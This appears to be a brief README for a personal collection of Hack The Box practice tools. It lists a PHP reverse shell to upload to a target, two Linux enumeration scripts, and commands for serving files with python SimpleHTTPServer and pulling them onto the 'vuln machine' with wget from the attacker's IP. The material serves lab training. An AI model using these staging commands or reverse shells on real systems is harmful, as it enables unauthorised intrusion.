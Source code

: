 # Hackthebox tools
<p><b>shell.php</b> : Use for reverse shell when uploaded to vuln machine</p>
<p><b>les.sh and LinEnum.sh</b> : Use for detect vuln in Linux machine</p>

<b><p>How to upload files to vuln linux machine</p></b>
<p>In your machine type : python -m SimpleHTTPServer</p>
<p>In vuln machine type : wget (your ip address):8000/(file to upload)</p>
